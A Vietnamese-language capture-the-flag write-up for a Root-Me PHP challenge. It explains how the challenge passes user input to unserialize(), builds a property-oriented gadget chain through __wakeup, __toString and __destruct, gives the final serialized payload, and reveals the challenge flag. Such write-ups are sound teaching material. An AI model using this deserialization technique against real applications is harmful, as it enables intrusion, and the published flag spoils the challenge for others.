


# PHP - Unserialize Pop Chain

Source: root-me.org
Technique: Deseirialization, Unserialize Pop Chain
Fields: Web

- Source
    
    ```php
    <?php
    
    $getflag = false;
    
    class GetMessage {
        function __construct($receive) {
            if ($receive === "HelloBooooooy") {
                die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
            } else {
                $this->receive = $receive;
            }
        }
    
        function __toString() {
            return $this->receive;
        }
    
        function __destruct() {
            global $getflag;
            if ($this->receive !== "HelloBooooooy") {
                die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
            } else {
                if ($getflag) {
                    include("flag.php");
                    echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
                }
            }
        }
    }
    
    class WakyWaky {
        function __wakeup() {
            echo "[YOU]: ".$this->msg."<br>";
        }
    
        function __toString() {
            global $getflag;
            $getflag = true;
            return (new GetMessage($this->msg))->receive;
        }
    }
    
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        die();
    }
    
    if (isset($_POST["data"]) && !empty($_POST["data"])) {
        unserialize($_POST["data"]);
    }
    
    ?>
    
    <!DOCTYPE html>
    <html lang="en" dir="ltr">
      <head>
        <meta charset="UTF-8">
        <title>PHP - Unserialize Pop Chain</title>
      </head>
      <body>
        <h1>PHP - Unserialize Pop Chain</h1>
        <hr>
        <br>
        <p>
          Can you bypass the security your friend put in place to access the flag? 
        </p>
        <br>
        <form class="" action="index.php" method="post">
          <textarea name="data" rows="5" cols="33" style="width:35%"></textarea>
          <br>
          <br>
          <button type="submit" name="button" style="width:35%">Submit</button>
        </form>
        <br>
        <p>
          You can also <a href="?source">View the source</a>
        </p>
      </body>
    </html>
    ```
    

Challenge cho phép người dùng submit chuỗi văn bản qua ô input.



Từ source code được cung cấp, nhận thấy rằng trang web tiến hành deserialize chuỗi input chúng ta submit:

```php
if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}
```

Ngoài ra có hai lớp **`GetMessage()`**, **`WakyWaky()`** cùng với biến **`$getflag`** mang giá trị **`false`**. Lần lượt phân tích thành phần của từng lớp.

```php
class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}
```

Lớp **`GetMessage()`**:

- Phương thức khởi tạo **`__construct()`** làm việc với thuộc tính **`$receive`**. Nếu **`$receive`** có giá trị **`HelloBooooooy`** sẽ in thông báo ra màn hình với hàm **`die()`**, kết thúc script đang chạy. Ngược lại, gán giá trị **`$this->receive = $receive`**.
- Phương thức **`__toString()`** trả về **`$this->receive`** khi đối tượng thuộc lớp này được thực thi với vai trò là string.
- Phương thức **`__destruct()`** tiếp tục kiểm tra biến **`$receive`**, nếu giá trị khác **`HelloBooooooy`** sẽ in thông báo ra màn hình với hàm **`die()`**, kết thúc script đang chạy. Ngược lại, kiểm tra điều kiện nếu **`$getflag`** là **true** sẽ in ra thông báo kèm theo flag của challenge.

Từ đây chúng ta nhận thấy để lấy được flag thì các điều kiện sau cần đồng thời thỏa mãn:

- Điều kiện 1: Đối tượng thuộc lớp **`GetMessage()`** tại thời điểm khởi tạo có thuộc tính **`receive`** khác **`HelloBooooooy`**.
- Điều kiện 2: Tại thời điểm thực hiện phương thức **`__destruct()`**, thuộc tính **`receive`** có giá trị bằng **`HelloBooooooy`**.
- Điều kiện 3: Tại thời điểm thực hiện phương thức **`__destruct()`**, biến **`$getflag`** có giá trị **true**.

Ngoài ra chúng ta có thêm lớp **`WakyWaky()`**:

```php
class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}
```

Trong lớp **`WakyWaky()`**:

- Phương thức **`__wakeup()`** được gọi khi thực thi hàm **`unserialize()`**.
- Phương thức **`__toString()`** được gọi khi đối tượng thuộc lớp **`WakyWaky()`** được thực thi với vai trò là string. Chú ý rằng phương thức này đổi giá trị **`$getflag`** thành **true**, giá trị trả về **`(new GetMessage($this->msg))->receive`** khai báo một đối tượng mới thuộc lớp **`GetMessage()`** có thuộc tính **`receive`** nhận giá trị **`$this->msg`** (của đối tượng thuộc lớp **`WakyWaky()`** đang thực thi phương thức **`toString()`**), cuối cùng trả về chính thuộc tính **`receive`** này. (Bạn đọc có thể hiểu đơn giản là trả về **`$this->msg`**)

Từ các phân tích phía trên, chúng ta cùng lần lượt giải quyết các điều kiện.

Điều kiện 1 giải quyết đơn giản:

```php
$a = new GetMessage("viblo");
```

Điều kiện 2 được thỏa mãn nếu sau khi thực hiện phương thức**`__construct()`**, thuộc tính**`receive`**nhận giá trị**`HelloBooooooy`**, chúng ta chỉ cần định nghĩa lại giá trị này sau khi khởi tạo đối tượng:

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";
```

Lúc này, với payload $payload = serialize($a), khi server thực hiện deserialize thì luồng code trong phương thức __destruct() thuộc lớp GetMessage() sẽ rẽ vào nhánh else. Bạn đọc có thể thực hiện debug với đoạn code (coi đây là sự kiện 1):

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";
$payload = serialize($a);
unserialize($payload);
```

Cuối cùng cần tìm cách để điều kiện 3 được thỏa mãn, như vậy cần gọi phương thức __toString() thuộc lớp WakyWaky(). Đầu tiên, khai báo một đối tượng mới và đối tượng này cần được thực thi với vai trò là string (coi đây là sự kiện 2):

```php
$b = new WakyWaky();
echo $b;
```

Đến đây, chúng ta cần tìm cách "nối" hai sự kiện trên với nhau, để khi server thực hiện deserialization, sự kiện 2 xảy ra và dẫn đến sự kiện 1. Mấu chốt để thực hiện được phép "nối" này chính là giá trị trả về trong phương thức __toString() thuộc lớp WakyWaky() vì khởi tạo một đối tượng mới thuộc lớp GetMessage(). Do vậy chúng ta có thể gán đối tượng $a vào thuộc tính msg của đối tượng $b, để server deserialize đối tượng $b.

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";

$b = new WakyWaky();
$b->msg = $a;
echo $b;

$payload = serialize($b);
unserialize($payload);
```

Đến đây, còn một vấn đề chúng ta cần xử lý, đó là server không thể "tự động" thực hiện **`echo $b;`** trước khi deserialize được. Nên chúng ta cần tìm cách kích hoạt công việc "thực thi **`$b`** như string" một cách tự động. Giải quyết bằng cách tạo thêm một đối tượng mới thuộc lớp **`WakyWaky()`** và gán giá trị **`$b`** vào thuộc tính **`msg`** của đối tượng mới (tận dụng phương thức **`__wakeup()`**)

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";

$b = new WakyWaky();
$b->msg = $a;

$c = new WakyWaky();
$c->msg = $b;

$payload = serialize($c);
// echo $payload;
unserialize($payload);
```

Thu được payload:

```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```



Luồng code hoạt động tại server như sau:

- Thực hiện deserialize đối tượng **`$payload`**, gọi phương thức **`__wakeup()`** thuộc lớp **`WakyWaky()`** xử lý **`$c->msg`** ở dạng chuỗi (lúc này là **`$b`**).
- Đối tượng **`$b`** được xử lý như dạng chuỗi nên gọi phương thức **`__toString`** thuộc lớp **`WakyWaky()`**, đổi giá trị global **`$getflag=true`**, trả về **`(new GetMessage($this->msg))->receive`**.
- **`(new GetMessage($this->msg))->receive`** khai báo một đối tượng mới (giả sử là **`$x`**) thuộc lớp **`GetMessage()`** với thuộc tính **`receive`** lúc này là **`$this->msg = $b->msg = $a`**, trả về **`$x->receive = $a`**.
- Đối tượng **`$a`** được thực thi như string nên gọi phương thức **`__toString()`** thuộc lớp **`GetMessage()`**, trả về **`$this->receive = $a->receive = "HelloBooooooy"`**. Từ đó in ra màn hình: **`[YOU]: HelloBooooooy`**
- Đối tượng **`$x`** do không được sử dụng tới nên thực hiện tự hủy, gọi phương thức **`__destruct()`** in ra màn hình **`[FRIEND]: Hm.. you don't see to be the friend I was waiting for..`** với hàm **`die()`** (do **`$x->receive !== "HelloBooooooy"`**).
- Hàm **`die()`** kết thúc script nên phương thức **`__destruct()`** của **`$a`** được gọi, do **`$a->receive === "HelloBooooooy"`** và **`$getflag = true`** nên in ra dòng thông báo cuối cùng kèm flag của challenge này: **`[FRIEND]: Oh ! Hi! Let me show you my secret: uns3r14liz3_p0p_ch41n_r0cks`**